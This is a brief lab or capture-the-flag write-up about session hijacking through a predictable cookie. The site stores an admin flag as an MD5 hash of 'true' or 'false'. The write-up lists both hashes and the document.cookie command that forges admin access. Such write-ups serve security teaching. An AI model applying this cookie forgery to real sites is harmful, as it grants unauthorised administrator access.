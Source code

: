 # Session Hijacking via Predictable Cookie

## Vulnerability
Broken Access Control / Insecure Authentication

## Target
`http://{IP_ADDRESS}/`

## Mechanism
- Admin authentication used predictable MD5-hashed boolean in cookie:
  - User: `I_am_admin=md5('false')`
  - Admin: `I_am_admin=md5('true')`

## Exploit
1. Retrieved user cookie: `68934a3e9455fa72420237eb05902327`
2. Generated admin hash: `md5('true') = b326b5062b2f0e69046810717534cb09`
3. Set new cookie: `document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"`

